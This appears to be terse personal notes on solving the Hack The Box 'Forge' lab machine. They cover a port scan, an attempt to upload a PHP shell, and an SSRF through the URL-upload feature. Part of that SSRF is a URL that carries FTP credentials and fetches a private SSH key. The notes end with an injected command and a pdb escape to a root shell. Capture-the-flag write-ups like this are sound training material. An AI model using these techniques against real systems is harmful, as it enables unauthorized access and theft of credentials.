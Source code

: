 start with nmap

80
22

***

http


upload functionality found.

try to upload shell.

upload test.php stored at (http://forge.htb/uploads/IGF4lX2xXewxk4koFvdt)

main.js

```javascript
function show_upload_local_file(argument) {
    var form_div = document.getElementById('form-div');
    form_div.innerHTML = `
        <form action="/upload" method="POST" enctype="multipart/form-data">
            <input type="file" name="file" class="file">
            <input name="local" type="hidden" value='1'>
            <br>
            <br>
            <button id="submit-local" type="submit" class="submit">Submit</button>
        </form>
        `;
}

function show_upload_remote_file(argument) {
    var form_div = document.getElementById('form-div');
    form_div.innerHTML = `
    <br><br>
        <form action="/upload" method="POST" enctype="application/x-www-form-urlencoded" >
            <input type="textbox" name="url" class="textbox">
            <input name="remote" type="hidden" value='1'>
            <br>
            <br>
            <button id="submit-remote" type="submit" class="submit">Submit</button>
        </form>
        `;
}


```

if we upload php file it will deleted automatically.

if we upload other than php it will not deleted.

we have two functionalities to upload files.

- Upload local file  
- Upload from url --> maybe ssrf or rfi


***
Advanced exploit using type=url
```
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF

```

***

An error occured! Error : HTTPConnectionPool(host='forge.htbstatic', port=80): Max retries exceeded with url: /images/image1.jpg (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7fae1869cd60>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution'))

it uses django with python. look for rce.

http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@127.1.1.1/.ssh/id_rsa


view-source:http://forge.htb/uploads/vQikPy84lDQ6buiUCKbf

***

start the python script.

login into another ssh terminal.

3 && whoami

pdb open in first ssh connnection.

import os
os.system("sh")

got root shell.
